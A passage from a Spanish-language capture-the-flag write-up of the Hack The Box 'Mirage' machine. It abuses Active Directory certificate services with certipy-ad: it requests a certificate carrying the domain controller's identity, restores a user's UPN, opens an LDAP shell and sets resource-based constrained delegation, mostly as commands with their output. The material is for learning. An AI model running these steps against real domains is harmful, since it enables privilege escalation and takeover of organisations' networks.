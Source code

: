 ahora solicitamos un certificado

```bash
certipy-ad req -u 'mark.bbond@mirage.htb' -k -no-pass -dc-ip 10.10.11.78 -target 'dc01.mirage.htb' -ca 'mirage-DC01-CA' -template 'User'
```
```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 28
[*] Successfully requested certificate
[*] Got certificate with UPN 'dc01$@mirage.htb'
[*] Certificate object SID is 'S-1-5-21-2127163471-3824721834-2568365109-1109'
[*] Saving certificate and private key to 'dc01.pfx'
[*] Wrote certificate and private key to 'dc01.pfx'
```

ya solicitado el certificado devolvemos el valor aoriginal al `UPN` del usuario `mark.bbond` asi que primero cargamos en cache el ticket kerberos del usuario `Mirage-Service$`

```bash
export KRB5CCNAME=Mirage-Service\$.ccache
```
restauramos el valor original del `UPN`

```bash
certipy-ad account update -user 'mark.bbond' -upn 'mark.bbond@mirage.htb' -u 'mirage-service$@mirage.htb' -k -no-pass -dc-ip 10.10.11.78 -target dc01.mirage.htb
```
```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'mark.bbond':
    userPrincipalName                   : mark.bbond@mirage.htb
[*] Successfully updated 'mark.bbond'

```
>>> Restaurar este valor luego de haber solicitado el certificado es necesario para evitar discrepancias mas tarde en la autenticacion kerberos

### Shell LDAP con Certipy

```bash
certipy-ad auth -pfx dc01.pfx -dc-ip 10.10.11.78 -ldap-shell
```

<img width="1920" height="223" alt="image" src="https://github.com/user-attachments/assets/e884086e-d11e-491f-939c-c50dc1217a27" />

## Delegación restringida basada en recursos (RBCD)

En la shell `ldap` ejecutamos el comando:

```bash
set_rbcd dc01$ Mirage-Service$
```

